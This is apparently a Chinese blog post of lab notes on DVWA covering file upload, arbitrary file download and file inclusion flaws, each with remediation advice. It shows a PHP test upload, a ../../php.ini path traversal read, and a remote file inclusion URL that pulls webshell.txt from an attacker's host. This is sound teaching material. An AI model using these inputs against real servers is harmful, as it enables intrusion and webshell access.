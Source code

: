```yaml
---
title: 文件上传与下载
description: 搬运之前写的笔记
categories: 
 - dvwa
tags:
 - dvwa
---
```

# 文件上传
## 漏洞说明
用户上传恶意代码文件，并在服务器上运行。
## 漏洞危害
上传webshell ，上传木马
## 漏洞利用演示
这里以dvwa来演示
首先选择一个正常的文件上传
![1](https://github.com/crazypyy/crazypyy.github.io/blob/master/images/wenjianbaohanyushangchuan/1.png?raw=true)
正常的文件可以上传成功，并且得到一个路径，将../../消除后可以得到路径地址
```url
http://localhost/DVWA-1.9/ hackable/uploads/gamersky_01origin_01_20171271614A12.jpg
```
然后访问发现
![1](https://github.com/crazypyy/crazypyy.github.io/blob/master/images/wenjianbaohanyushangchuan/2.png?raw=true)
这里不得不吹一下 尼尔机械纪元这个游戏了，良心游戏，就是贵了点。
一般来说都是构造一句话木马或者phpinfo等关键字用来获取服务器权限或者信息。
接下来构造一个php文件
```php
<?php
    phopinfo();
?>
```
发现服务器成功执行，说明存在文件上传漏洞。
![1](https://github.com/crazypyy/crazypyy.github.io/blob/master/images/wenjianbaohanyushangchuan/3.png?raw=true)
当然这是低等级的利用方式。高等级的上传，利用zap抓包分析与成功上传时的不同，不断修改尝试。或者利用copy命令创建一个包含Php代码的图片，利用00截断上传等等。
## 整改建议
1.文件上传的目录设置为不可执行
2.判断文件类型，而对于图片的处理，可以使用压缩函数或者resize函数，在处理图片的同时破坏图片中可能存在的恶意代码
3.使用随机数改写文件名和文件路径
4.单独设置文件服务器的域名
# 任意文件下载
## 漏洞说明
通过构造url，下载系统任意文件，下载程序代码等
## 漏洞危害
代码泄露，数据库配置文件泄露，系统文件泄露等等
## 漏洞利用方式
御剑扫一扫，说不定有惊喜。
## 整改建议
验证下载文件格式
限制请求的路径
# 文件包含
## 漏洞说明
文件包含漏洞分为本地文件包含和远程文件包含。文件包含是一种代码处理方式，函数例如Include require等，参数是文件名，比方说数据库连接代码会被多次重复使用，所以将数据库链接代码写在一个文件里，其他文件以include方式引用非常方便，而且在后期也易于维护。但是如果文件名参数用户可以控制或者过滤不严格，就会造成文件包含漏洞。
## 漏洞危害
获取服务器信息，执行webshell获取权限
## 漏洞利用方式
以dvwa演示文件包含漏洞的过程。先尝试以test.php猜测，服务器返回两个错误。
![1](https://github.com/crazypyy/crazypyy.github.io/blob/master/images/wenjianbaohanyushangchuan/4.png?raw=true)
第一个错误显示出了出错信息的绝对路径 
```
G:\phpstudy\PHPTutorial\WWW\DVWA-1.9\vulnerabilities\fi\index.php
```
在这个文件的36行有一个 include（）函数，所以我们可以猜测include()中的参数信息应该是这样的
```
G:\phpstudy\PHPTutorial\WWW\DVWA-1.9\vulnerabilities\fi\test.php
```
而由于test.php是我们所以写的不存在是正常的，为此思考读取服务器中的其他文件，假设读取
```
G:\phpstudy\PHPTutorial\WWW\DVWA-1.9\php.ini
```  
的内容，以此为基础 Include（G:\phpstudy\PHPTutorial\WWW\DVWA-1.9\php.ini）,之前的分析固定字段应该是G:\phpstudy\PHPTutorial\WWW\DVWA-1.9\vulnerabilities\fi\所以可控字段应该是../../php.ini，在浏览器中尝试得出结果
![1](https://github.com/crazypyy/crazypyy.github.io/blob/master/images/wenjianbaohanyushangchuan/5.png?raw=true)
可以看出确实读出了php.ini的内容。
远程文件包含的思路应该如下所示：
攻击者的web服务器A www.a.com 上有个webshell.txt,被攻击者的web服务器B上www.b.com 有个文件包含漏洞，那么可以构造如下的连接来远程执行webshell.txt
```
http://www.b.com/xxxx/?page=http://www.a.com/webshell.txt
```
##整改建议
设置过滤原则，过滤某些字符。设置文件访问和执行权限。隐藏文件路径。